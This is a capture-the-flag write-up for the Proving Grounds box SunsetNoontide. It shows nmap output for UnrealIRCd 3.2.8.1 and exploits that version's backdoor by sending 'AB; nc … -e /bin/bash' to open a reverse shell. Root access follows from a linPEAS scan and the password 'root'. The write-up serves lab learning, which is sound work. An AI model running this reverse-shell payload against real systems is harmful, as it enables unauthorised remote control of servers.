 ```yaml
---
title: "Proving grounds Play: SunsetNoontide"
layout: post
date: 2023-09-11 01:00
categories: writeup
---
```


Proving grounds Play - SunsetNoontide CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.foonet.com
|   version: Unreal3.2.8.1. irc.foonet.com 
|   uptime: 205 days, 6:52:38
|   source ident: nmap
|   source host: 46E8C50E.C2311716.EA8777A3.IP
|_  error: Closing Link: aguqweprx[192.168.45.209] (Quit: aguqweprx)
Service Info: Host: irc.foonet.com6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd (Admin email example@example.com)
```

## Unreal3.2.8.1. irc.foonet.com

The Unreal3.2.8.1. irc.foonet.com is vulnerable to remote code execution. The simple way to exploit the vulnerability is to send OS commands follwed by the `AB;` string.

### Exploitation

Connect to the PORT using netcat. Make sure to run netcat listener on PORT 1234.

```sh
# connect to PORT 
nc -nv $IP 6667

# send payload after connection
AB; nc 192.168.45.209 1234 -e /bin/bash
```

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/shell.png)

## Privilege Escalation

Download and run [linPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/20230910-ae32193f/linpeas.sh).

The results shows the root user access can be obtained by switching to root using password as `root`.

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).